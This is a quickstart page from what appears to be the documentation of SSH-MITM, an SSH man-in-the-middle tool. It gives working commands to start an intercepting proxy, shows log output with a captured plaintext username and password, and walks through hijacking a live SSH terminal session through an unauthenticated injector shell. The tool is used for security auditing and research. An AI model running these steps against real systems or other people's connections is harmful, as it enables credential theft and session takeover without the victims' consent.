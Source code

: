 Quickstart
==========

Eager to get started? This page gives a good introduction in how to get started with SSH-MITM.

First, make sure that:

* SSH-MITM is :ref:`installed <Installation>`
* SSH-MITM is up-to-date

Let’s get started with some simple examples.


Start ssh-mitm proxy server
---------------------------

Starting an intercepting mitm-ssh server with password authentication is very simple.

All you have to do is run this command in your terminal of choice.

.. code-block:: bash
    :linenos:

    $ ssh-mitm --remote-host 192.168.0.x

Now let's try to connect to the ssh-mitm server.
The ssh-mitm server is listening on port 10022.

.. code-block:: bash
    :linenos:

    $ ssh -p 10022 user@proxyserver

You will see the credentials in the log output.


.. code-block:: none

    2021-01-01 11:38:26,098 [INFO]  Client connection established with parameters:
        Remote Address: 192.168.0.x
        Port: 22
        Username: user
        Password: supersecret
        Key: None
        Agent: None


Hijack a SSH terminal session
-----------------------------

Getting the plain text credentials is only half the fun.
SSH-MITM proxy server is able to hijack a ssh session and allows you to interact with it.

Let's get started with hijacking the session.

When a client connects, the ssh-mitm proxy server starts a new server, where you can connect with another ssh client.
This server is used to hijack the session.

.. code-block:: none

    2021-01-01 11:42:43,699 [INFO]  created injector shell on port 34463. connect with: ssh -p 34463 127.0.0.1

To hijack the session, you can use your favorite ssh client. This connection does not require authentication.

.. code-block:: bash
    :linenos:

    $ ssh -p 34463 127.0.0.1

After you are connected, your session will only be updated with new responses, but you are able to execute commands.

Try to execute somme commands in the hijacked session or in the original session.

The output will be shown in both sessions.
